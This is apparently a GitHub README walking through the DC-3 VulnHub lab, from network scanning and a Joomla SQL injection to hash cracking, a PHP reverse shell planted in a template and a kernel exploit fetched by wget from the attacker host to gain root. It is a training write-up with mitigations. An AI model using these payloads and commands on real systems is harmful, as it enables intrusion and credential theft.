# DC-3 VulnHub CTF Walkthrough

<p align="center">
  
  
  
</p>

> **Target**: DC-3 (VulnHub)
> **Objective**: Root access and capture the flag
> **Techniques**: Network discovery, SQL Injection, Password Cracking, Privilege Escalation

---

## 📋 Table of Contents

- [Overview](#overview)
- [Reconnaissance](#phase-1-reconnaissance)
- [Enumeration](#phase-2-enumeration)
- [Vulnerability Analysis](#phase-3-vulnerability-analysis)
- [Exploitation](#phase-4-exploitation)
- [Privilege Escalation](#phase-5-privilege-escalation)
- [Tools Used](#tools-used)
- [Key Takeaways](#key-takeaways)
- [Disclaimer](#disclaimer)

---

## 🔍 Overview

DC-3 is a beginner-to-intermediate level Capture The Flag (CTF) challenge from VulnHub. This walkthrough demonstrates the complete penetration testing lifecycle from initial reconnaissance to root compromise.

**Vulnerabilities Exploited:**
- CVE-2017-8917 (Joomla SQL Injection)
- Weak password policy (dictionary attack)
- Template injection for RCE
- Kernel privilege escalation (Ubuntu 16.04)

---

## 🔎 Phase 1: Reconnaissance

### Network Discovery

Identified the target using **netdiscover**:

```bash
sudo netdiscover -r 10.109.172.0/24
```

**Target Found:** `10.109.172.166` (VMware MAC: 00:0c:29:a0:9b:36)



### Port Scanning

Comprehensive scan with **nmap**:

```bash
nmap -sV -p- -T4 10.109.172.166
```

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

> **Note:** Only port 80 is open - this is a web-focused challenge.

📄 **Scan Reports:** [`scans/`](scans/)
- [`scans/netdiscover_report.txt`](scans/netdiscover_report.txt)
- [`scans/nmap_scan.txt`](scans/nmap_scan.txt)

---

## 🕵️ Phase 2: Enumeration

### Web Reconnaissance

The target runs **Joomla CMS**:



### Joomla Scanning

Used **OWASP JoomScan** to enumerate:

```bash
perl joomscan.pl --url http://dc-3
```

**Key Findings:**
- ✅ Joomla version **3.7.0** (vulnerable)
- ✅ Admin panel: `/administrator/`
- ✅ Directory listing enabled



📄 **Full Report:** [`scans/joomscan_report.txt`](scans/joomscan_report.txt)

### CVE Identification

Joomla 3.7.0 is vulnerable to **CVE-2017-8917** - SQL Injection in `com_fields` component via `list[fullordering]` parameter.



---

## 🐛 Phase 3: Vulnerability Analysis

### SQL Injection Exploitation

Used **sqlmap** to exploit the SQLi vulnerability:

```bash
# Enumerate databases
sqlmap -u "http://dc-3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=" \
       --batch --dbs
```

**Injection Types Detected:**
- Error-based (UPDATEXML)
- Time-based blind


### Credential Extraction

Dumped user credentials from `joomladb`:

```bash
sqlmap -u "http://dc-3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=" \
       -D joomladb -T "#__users" --dump --batch
```

**Result:**
```
+-----+----------+--------------------------------------------------------------+
| id  | username | password                                                     |
+-----+----------+--------------------------------------------------------------+
| 629 | admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+-----+----------+--------------------------------------------------------------+
```



📄 **SQLMap Outputs:** [`exploitation/`](exploitation/)
- [`exploitation/sqlmap_first_scan.txt`](exploitation/sqlmap_first_scan.txt)
- [`exploitation/sqlmap_second_scan.txt`](exploitation/sqlmap_second_scan.txt)
- [`exploitation/sqlmap_third_scan.txt`](exploitation/sqlmap_third_scan.txt)
- [`exploitation/sqlmap_fourth_scan.txt`](exploitation/sqlmap_fourth_scan.txt)

---

## 💥 Phase 4: Exploitation

### Password Cracking

Cracked the bcrypt hash with **hashcat**:

```bash
# Mode 3200 = bcrypt
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --force
```

**Configuration:**
| Setting | Value |
|---------|-------|
| Hash Mode | 3200 (bcrypt) |
| Wordlist | rockyou.txt |
| Time | ~4 seconds |



**Password Cracked:** `snoopy`



📄 **Hash Files:** [`cracking/`](cracking/)
- [`cracking/hash.txt`](cracking/hash.txt)
- [`cracking/hashcat.txt`](cracking/hashcat.txt)
- [`cracking/decrypted_hash.txt`](cracking/decrypted_hash.txt)

💻 **Cracking Script:** [`code/crack_hash.sh`](code/crack_hash.sh)

### Admin Access

Logged into Joomla administrator panel:
- **URL:** `http://dc-3/administrator/`
- **Credentials:** `admin:snoopy`



### Reverse Shell via Template Injection

**Step 1:** Navigate to Template Editor
`Extensions → Templates → Templates → Protostar → index.php`



**Step 2:** Inject PHP Reverse Shell

```php
<?php
$ip = '10.109.172.45';  // Attacker IP
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', [
    0 => $sock,
    1 => $sock,
    2 => $sock
], $pipes);
?>
```

💻 **Payload:** [`code/php_reverse_shell.php`](code/php_reverse_shell.php)

**Step 3:** Start listener and trigger

```bash
nc -lvnp 4444
```

💻 **Listener Script:** [`code/netcat_listener.sh`](code/netcat_listener.sh)


**Shell obtained as `www-data`**



---

## 🔐 Phase 5: Privilege Escalation

### System Enumeration

```bash
uname -a
lsb_release -a
```

**System Info:**
- **OS:** Ubuntu 16.04 Xenial
- **Kernel:** 4.4.0-21-generic




💻 **Enumeration Script:** [`code/privesc_check.sh`](code/privesc_check.sh)

### Exploit Research

Searched for kernel exploits:

```bash
searchsploit ubuntu 16.04 kernel 4.4.0
```

**Found:** [Exploit 39772](https://www.exploit-db.com/exploits/39772) - "double-fdput() bpf Privilege Escalation"



### Exploit Execution

**Step 1:** Download to target

```bash
wget http://10.109.172.45:8000/39772.tar
```



**Step 2:** Extract and examine

```bash
tar -xvf 39772.tar
cat 39772/exploit.sh
```




**Step 3:** Compile

```bash
cd 39772
chmod +x compile.sh
./compile.sh
```



💻 **Exploit Code:** [`code/kernel_exploit_39772.c`](code/kernel_exploit_39772.c)
💻 **Compile Script:** [`code/compile.sh`](code/compile.sh)

**Step 4:** Execute exploit

```bash
./doubleput
```



### Root Access Achieved

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

whoami
# root
```

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| [netdiscover](https://github.com/netdiscover-scanner/netdiscover) | Network host discovery |
| [nmap](https://nmap.org/) | Port and service scanning |
| [JoomScan](https://github.com/OWASP/joomscan) | Joomla vulnerability scanner |
| [sqlmap](https://sqlmap.org/) | Automated SQL injection |
| [hashcat](https://hashcat.net/hashcat/) | Password hash cracking |
| [netcat](https://nc110.sourceforge.io/) | Reverse shell handler |
| [searchsploit](https://www.exploit-db.com/searchsploit) | Exploit database search |

---

## 📝 Key Takeaways

### Exploit Chain

```
Recon → Enum → SQLi → Crack → Shell → PrivEsc → Root
```

| Phase | Vulnerability | Impact |
|-------|--------------|--------|
| Discovery | N/A | Found target at 10.109.172.166 |
| Enumeration | N/A | Joomla 3.7.0 identified |
| Exploitation | CVE-2017-8917 | Database dump, credentials stolen |
| Cracking | Weak password | Admin access gained |
| Post-Exploitation | Template injection | Code execution (www-data) |
| Privilege Escalation | Kernel 4.4.0-21 | Root access achieved |

### Mitigations

1. ⬆️ **Update Joomla** to latest version (patched in 3.7.1+)
2. 🔒 **Disable directory listing** in Apache config
3. 🔑 **Use strong passwords** (resist dictionary attacks)
4. 🛡️ **Apply kernel updates** regularly
5. 📝 **Principle of least privilege** for web processes
6. 🧱 **Deploy WAF** to block SQL injection attempts

---

## ⚠️ Disclaimer

> **This walkthrough is for educational purposes only.**
>
> Always practice ethical hacking in authorized environments. Unauthorized access to computer systems is illegal. The author assumes no liability for any misuse of the information provided.

---

## 📁 Repository Structure

```
DC_3/
├── README.md                     # This file
├── DC-3_Writeup.md               # Detailed writeup
├── scans/                        # Reconnaissance scans
│   ├── netdiscover_report.txt
│   ├── nmap_scan.txt
│   └── joomscan_report.txt
├── exploitation/                 # SQL injection results
│   ├── sqlmap_first_scan.txt
│   ├── sqlmap_second_scan.txt
│   ├── sqlmap_third_scan.txt
│   └── sqlmap_fourth_scan.txt
├── cracking/                     # Password cracking
│   ├── hash.txt
│   ├── hashcat.txt
│   └── decrypted_hash.txt
├── code/                         # Exploitation code
│   ├── README.md
│   ├── php_reverse_shell.php
│   ├── kernel_exploit_39772.c
│   ├── compile.sh
│   ├── sqlmap_commands.sh
│   ├── crack_hash.sh
│   ├── netcat_listener.sh
│   └── privesc_check.sh
└── screenshots/                  # Evidence images
    ├── 01-netdiscover.png
    ├── 02-joomla-homepage.png
    ├── 03-joomscan-report.png
    ├── 04-cve-research.png
    ├── 05-sqlmap-dbs.png
    ├── 06-sqlmap-dump.png
    ├── 07-hashcat-cracking.png
    ├── 08-cracked-password.png
    ├── 09-admin-login.png
    ├── 10-template-editor.png
    ├── 11-reverse-shell.png
    ├── 12-shell-access.png
    ├── 13-searchsploit.png
    ├── 14-wget-download.png
    ├── 15-exploit-compile.png
    ├── 16-root-shell.png
    ├── cat-exploit-code.webp
    ├── compile-script.webp
    ├── exploit-39772.webp
    ├── lsb-release.webp
    ├── root-access.webp
    ├── searchsploit-results.webp
    ├── tar-extraction.webp
    ├── ubuntu-version.webp
    ├── uname-system-info.webp
    └── wget-exploit.webp
```

---

## 🔗 Quick Links

- **VulnHub DC-3:** https://www.vulnhub.com/entry/dc-3,312/
- **CVE-2017-8917:** https://nvd.nist.gov/vuln/detail/CVE-2017-8917
- **Exploit 39772:** https://www.exploit-db.com/exploits/39772

---

<p align="center">
  <b>Completed with persistence and curiosity! 🚩</b>
</p>
